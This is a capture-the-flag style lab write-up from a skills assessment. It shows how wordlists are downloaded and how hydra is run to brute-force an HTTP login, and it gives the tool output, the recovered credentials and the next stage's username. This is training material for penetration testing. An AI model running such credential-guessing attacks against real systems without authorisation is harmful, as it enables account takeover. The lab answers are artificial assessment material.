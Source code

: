 ﻿The first part of the skills assessment will require you to brute-force the the target instance. Successfully finding the correct login will provide you with the username you will need to start Skills Assessment Part 2.

You might find the following wordlists helpful in this engagement: [usernames.txt](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt) and [passwords.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt)

![Pasted image 20250213155858.png](../../../../IMAGES/Pasted%20image%2020250213155858.png)

Let's begin by downloading both wordlists to our machine:

```
curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Usernames/top-usernames-shortlist.txt 
```

```
curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
```

Once we've got everything, let's begin with the bruteforce process, we can use hydra for this process:

```
hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt 94.237.54.164 -s 42572 http-get -t 60
```

We get the following:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-13 21:02:48
[WARNING] You must supply the web page as an additional option or via -m, default path set to /
[DATA] max 60 tasks per 1 server, overall 60 tasks, 3400 login tries (l:17/p:200), ~57 tries per task
[DATA] attacking http-get://94.237.54.164:42572/
[42572][http-get] host: 94.237.54.164 login: admin password: Admin123
1 of 1 target successfully completed, 1 valid password found
```

Found credentials:

```
`admin`:`Admin123`
```

Let's log in now:

![Pasted image 20250213160445.png](../../../../IMAGES/Pasted%20image%2020250213160445.png)

We got the username:

```
satwossh
```
